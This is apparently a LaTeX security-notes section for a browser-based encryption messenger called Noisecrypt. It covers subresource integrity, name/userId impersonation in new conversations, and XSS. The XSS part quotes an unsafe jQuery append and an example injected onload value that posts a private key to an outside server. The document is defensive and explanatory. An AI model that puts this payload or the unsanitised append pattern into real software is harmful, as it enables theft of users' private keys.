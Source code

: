 \documentclass{scrartcl}
\begin{document}
   There is also a new technology called sub resource integrity which can be used to validate Javascript and CSS resources (See \url{http://www.w3.org/TR/SRI/} and \url{http://githubengineering.com/subresource-integrity/}). Maybe they introduce some mechanism to validate a whole web page with a hash recommended by the majority of browser users and additionally located on a (Mozilla or Google) server. So lets keep an eye on that.


   
     \subsubsection{New Conversations with malicious userId/Name pair }
     An attacker can initiate a new conversation with the name of a friend of you, but use another userId instead. Example:
      \begin{enumerate}
     \item Alice (alice@server.com) and Bob Alice (bob@server.com) are friends
     \item Eve initiates a new conversation with Bob with Name "Alice" and userId eve@server.com. 
     \item Bob thinks he is talking to Alice, but he is not.
     \end{enumerate}
     A solution for this problem would be to allow only names from the key directory.
   \subsubsection{XSS}
   One of the most critical attack vectors in Noisecrypt is Cross Site Scripting as with this technique private keys can be stolen.
   Therefore it is important to sanitize all displayed data from other people and servers. Never trust the server. For example imaging data is a JSON Object returned by the server:
   
       \begin{lstlisting}
\$("html").append("<a href='"+data.href+"'>TEST</a>");
    \end{lstlisting}
    
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!\\
     
\end{document}
